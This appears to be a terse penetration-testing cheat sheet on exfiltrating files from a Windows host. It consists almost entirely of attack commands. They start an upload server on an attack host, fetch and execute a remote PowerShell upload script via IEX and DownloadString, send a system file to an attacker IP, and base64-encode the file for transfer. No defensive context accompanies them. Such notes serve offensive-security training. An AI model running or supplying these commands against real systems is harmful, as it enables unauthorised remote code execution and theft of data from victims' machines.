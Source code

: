 
Start upload server on attack host
```shell-session
python3 -m uploadserver
```

Install PSUpload File 
```powershell-session
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

Import-Module PSUpload.ps1
```

Upload file to attack host
```powershell-session
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```


Convert File to base64 string
```powershell-session
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
```
